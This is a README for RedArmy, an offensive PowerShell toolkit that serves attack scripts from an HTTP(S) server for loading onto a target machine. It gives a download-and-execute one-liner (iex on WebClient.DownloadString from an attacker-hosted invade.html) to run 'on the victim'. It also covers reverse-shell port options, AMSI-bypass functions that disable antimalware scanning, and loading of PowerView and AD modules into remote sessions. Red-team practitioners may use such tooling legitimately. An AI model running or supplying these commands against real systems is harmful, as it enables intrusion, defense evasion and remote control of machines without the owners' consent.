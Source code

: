 # RedArmy

<a href="https://www.buymeacoffee.com/mjwhitta">🍪 Buy me a cookie</a>

## Installation

```
$ git clone https://github.com/mjwhitta/redarmy.git
$ cd ./redarmy
$ ./scripts/update
```

## Configuration

RedArmy uses `config.default` as [the default config]. You can copy it
to `config` and add or delete lines as necessary.

Config entries look like the following:

```
name action path
```

Name and path are fairly self-explanatory. Actions are as follows:

- `get`
    - Creates
        - `Get-<name>`
            - Get file contents
        - `Deploy-<name>`
            - Create ScriptBlock and run in provided PSSession
- `get-bin`
    - Creates
        - `Import-<name>`
            - Create assembly object and load into memory
        - `Deploy-<name>`
            - Create assembly object and load into memory in provided
              PSSession
- `run`
    - Creates
        - `Get-<name>`
            - Get file contents
        - `Invoke-<name>`
            - Run `iex` on file contents
        - `Invoke-<name>InBg`
            - Run `iex` on file contents in background
        - `Deploy-<name>`
            - Create ScriptBlock and run in provided PSSession
        - `Deploy-<name>InBg`
            - Create ScriptBlock and run in provided PSSession in
              background
- `run-bin`
    - Not yet implemented

See [the default config] for examples. See [Examples](#examples) for
more details on how to use these functions.

[the default config]: ./config.default

## Usage

```
$ ./serve -h
Usage: serve [OPTIONS] <ip>

Spin up a simple HTTP(S) server to host the RedArmy scripts.

Options:
    --cert=PEM           Use the specified cert PEM file for TLS,
                         implies --tls, requires --key
    -c, --config=FILE    Use the specified config
    -h, --help           Display this help message
    --invade=FILE        Use the specified invade filename instead of
                         invade.html
    --key=PEM            Use the specified key PEM file for TLS,
                         implies --tls, requires --cert
    -n, --ngrok          Use ngrok for TLS (ensure ssh is
                         pre-configured)
    --no-color           Disable colorized output
    -p, --port=NUM       Use the specified port (default: 8080 for
                         HTTP, 8443 for TLS)
    -r, --rport=NUM      Use the specified port for reverse shell
                         (default: 4444)
    --rshell=FILE        Use the specified rshell filename instead of
                         rshell.html
    --skip-validation    Disable TLS certificate validation (for use
                         with self-signed certs)
    --tls                Use TLS
    -u, --update         Update git submodules before starting server
```

Once the `serve` script is running, you can use the following to load
RedArmy on the victim:

```
PS> iex ((New-Object System.Net.WebClient).DownloadString("http://<ip>:<port>/invade.html"))
```

That command will also displayed for you to copy and paste for
convenience.

### Examples

- Load ps1 script into current session
    - `iex (Get-PowerView)`
- Load ps1 script into specified session
    - `Deploy-PowerView <session>`
- Load binary object into current session
    - `Import-ADModule`
- Load binary object into specified session
    - `Deploy-ADModule <session>`
- Run ps1 script in current session
    - `Invoke-AMSIBypass`
- Run ps1 script in current session in background
    - `Invoke-AMSIBypassInBg`
- Run ps1 script in specified session
    - `Deploy-AMSIBypass <session>`
- Run ps1 script in specified session in background
    - `Deploy-AMSIBypassInBg <session>`
